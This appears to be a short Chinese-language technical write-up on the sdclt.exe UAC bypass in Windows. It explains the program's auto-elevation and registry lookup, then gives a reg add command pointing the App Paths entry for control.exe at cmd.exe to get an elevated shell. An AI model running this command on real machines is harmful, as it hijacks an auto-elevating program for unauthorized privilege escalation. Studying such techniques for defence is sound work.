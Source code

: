 ### sdclt.exe_bypassuac
---
sdclt.exe一个备份还原程序,使用sigcheck.exe查看该exe信息
sigcheck.exe -m c:\windows\system32\sdclt.exe  
![1](/images/20181111.png)  
该程序启动会自动提升权限,且会以一个高权限去寻找HKCU\Software\Classes\Applications\control.exe键值,最新补丁已经不会执行此路径下的值了,但该程序还会去寻找为HKLM\Software\Microsoft\Windows\CurrentVersion\App Paths\control.exe,而该键值仍然会执行,但该路径下修改注册表则需要管理员权限  
![1](/images20181112.png)  
![1](/images/20181113.png)  
![1](/images/20181114.png)  
##### 利用  
---
新增一个键值  
reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\App Paths\control.exe" /ve /d c:\windows\system32\cmd.exe  
 ![1](/images/20181115.png)  
 ![1](/images/20181116.png)  
 ![1](/images/20181117.png)    
